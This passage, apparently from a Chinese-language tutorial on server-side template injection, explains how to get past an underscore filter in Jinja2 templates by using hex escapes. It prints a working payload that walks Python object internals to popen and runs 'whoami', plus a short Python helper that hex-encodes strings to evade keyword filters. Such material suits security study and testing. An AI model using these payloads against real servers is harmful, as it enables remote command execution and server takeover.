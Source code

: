 #### 过滤下划线

过滤了`_`

- 编码绕过

使用十六进制编码绕过，`_`编码后为`\x5f`，`.`编码后为`\x2E`

payload如下

```go
{{()["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fbases\x5f\x5f"][0]["\x5f\x5fsubclasses\x5f\x5f"]()[376]["\x5f\x5finit\x5f\x5f"]["\x5f\x5fglobals\x5f\x5f"]['popen']('whoami')['read']()}}
```

这里甚至可以全十六进制绕过，顺便把关键字也一起绕过，这里先给出个python脚本方便转换

```go
string1="__class__"



string2="\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f"



def tohex(string):



  result = ""



  for i in range(len(string)):



      result=result+"\\x"+hex(ord(string[i]))[2:]



  print(result)



 



tohex(string1) #\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f



print(string2) #__class__
```
